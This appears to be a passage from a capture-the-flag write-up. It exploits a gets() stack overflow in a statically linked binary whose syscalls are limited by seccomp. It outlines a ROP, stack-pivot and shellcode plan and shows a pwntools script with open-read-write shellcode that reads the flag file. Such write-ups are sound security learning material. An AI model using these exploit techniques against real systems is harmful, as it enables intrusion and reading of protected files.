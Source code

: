 From the top, we can see they limit syscalls to 64 bit versions rather than 32, pretty sure this is the default, so this means no `int 0x80`s allowed, so cant bypass the filter that way. 

Lets now take a look at the `vuln` function:

```c
__int64 __fastcall vuln()
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  gets(buf);
  return 0LL;
}
```

Classy, huh? I havent seen `gets()` used in a while so it was pretty cool to see it again. So to recap:

We have:
- No PIE, and statically linked; many gadgets available to us right out the door.
- Easy bof vulnerability on the stack.
- ... But, we cant get a shell, so we have to use some combination of ORW, but using `openat` instead of open to net us the flag.

# Exploitation

My exploit is fairly simple. It has 3 stages:

1. Overflow buffer, rop together a call to `read` into the bss to load a stage 2. I do this because I dont want to deal with `gets()` and its badchars.
2. Pivot the stack into the bss where a ropchain is waiting.
3. The ropchain rwx's the bss, then jumps to shellcode I had loaded after.

Here's what it looks like:

```py
from pwn import *
import string

context.arch = 'amd64'

script = '''
break *vuln+29
continue
'''

# Print out contents (only up to 0x50 bytes of it though for some reason :/) of a file.
shellcode = asm('''

    mov rax, 0x101
    mov rsi, rdi
    xor rdi, rdi
    xor rdx, rdx
    xor r10, r10
    syscall
    
    mov rdi, rax
    mov rax, 0
    mov rsi, rsp
    mov rdx, 0x50
    syscall
    
    mov rax, 1
    mov rdi, 0
    syscall

        ''')
```